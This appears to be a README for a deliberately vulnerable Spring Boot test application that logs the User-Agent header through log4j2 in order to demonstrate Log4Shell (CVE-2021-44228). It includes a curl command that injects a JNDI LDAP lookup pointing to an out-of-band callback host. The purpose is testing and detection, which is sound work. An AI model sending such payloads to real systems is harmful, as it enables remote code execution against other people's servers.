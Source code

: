 # Simple Spring Boot application which is vulnerable to Log4Shell (CVE-2021-44228)
* Changed default logging framework from logback to log4j2

Application logs 'User-Agent' header, so one can test vulnerability with curl and e.g. [interactsh-service](https://github.com/projectdiscovery/interactsh):
```
curl -A '${jndi:ldap://interactsh-url/a}' http://target-service/
```
One should see DNS interaction at [app.interactsh.com](https://app.interactsh.com/).